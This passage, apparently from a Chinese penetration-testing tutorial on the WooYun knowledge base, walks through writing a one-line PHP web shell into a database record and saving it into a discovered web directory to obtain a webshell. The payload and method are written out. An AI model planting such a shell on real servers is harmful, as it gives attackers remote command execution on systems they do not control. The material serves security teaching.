 语句执行成功后，再插入一条数据，代码很简单，希望能用 php 的 system 函数执行系统指令。

```
INSERT INTO hacker (packet)

VALUES(
'<pre><body bgcolor=silver><? @system($_GET["cmd"]); ?></body></pre>'  
); 
```

![20181634-8b3a0db49bbc4586b46feea26b00726](img/img101_png.jpg)

下一步就是保存插入的记录到站点目录下，但是站点的物理路径是什么呢？我在观察页面请求链接的时候，发现一个 404 链接。

![20181642-107d3b9ff1c34775a295404118ffb92](img/img102_png.jpg)

404 链接的路径是[`www.xxxxx.cn/var/www/productions/22_production.zip`](http://www.xxxxx.cn/var/www/productions/22_production.zip)。这个是进行网站开发时候常犯的静态链接的错误，那是不是说网站的根目录在”/var/www”下呢，我把去掉”/var/www”，文件可以被正常访问。其实这也是 ubuntu 默认的站点目录。接下来就试试有没有权限保存文件了。

经过一番查找，终于找到一个有写权限的目录，将网马写到 web 目录中，得到了 webshell，接下来就不用详解了吧。

### 小结

这个简单的小例子，只是想告诉大家，渗透测试有什么并没有那么困难。也没有哪种方法，哪个工具或者平台是万能的，最重要的是你自己的努力和思考。

从下一节开始，我们正式进入渗透测试的学习之旅。

版权声明：未经授权禁止转载 [玄魂](http://drops.wooyun.org/author/玄魂 "由 玄魂 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [使用 Hash 直接登录 Windows](http://drops.wooyun.org/tips/24)
*   [nmap 脚本使用总结](http://drops.wooyun.org/tips/2188)
*   [利用 ROP 绕过 DEP（Defeating DEP with ROP）调试笔记](http://drops.wooyun.org/papers/3602)
*   [Linux 通配符可能产生的问题](http://drops.wooyun.org/papers/2448)
*   [Volatility FAQ](http://drops.wooyun.org/papers/2854)
*   [从技术角度深入剖析：改号软件，电话号码任意显示，伪造来电显示](http://drops.wooyun.org/tips/342)
